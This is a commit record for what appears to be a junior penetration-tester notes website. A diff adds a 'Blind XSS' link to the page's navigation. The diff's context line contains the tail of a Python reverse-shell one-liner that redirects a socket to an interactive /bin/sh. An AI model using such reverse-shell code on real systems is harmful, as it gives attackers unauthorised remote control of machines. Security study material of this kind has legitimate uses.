

Before and after one commit to CHIHIIMEN123/Jr-Penetration-Tester, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 6696-7644 px from the top of the page, without its empty margins (204-1030 px from the left). Before the commit the page ends 7599 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -358,6 +358,7 @@ os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'<
     <a href="Reconnaissance-Exploitation2.html" class="btn btn-windows" tabindex="0">Windows</a>
     <a href="Reconnaissance-Exploitation3.html" class="btn btn-ad" tabindex="0">Active Directory Windows</a>
     <a href="Reconnaissance-Exploitation4.html" class="btn btn-ad" tabindex="0">Active Directory Linux</a>
+    <a href="Blind XSS.html" class="btn btn-ad" tabindex="0">Blind XSS</a>
   </div>
 
 </body>
```
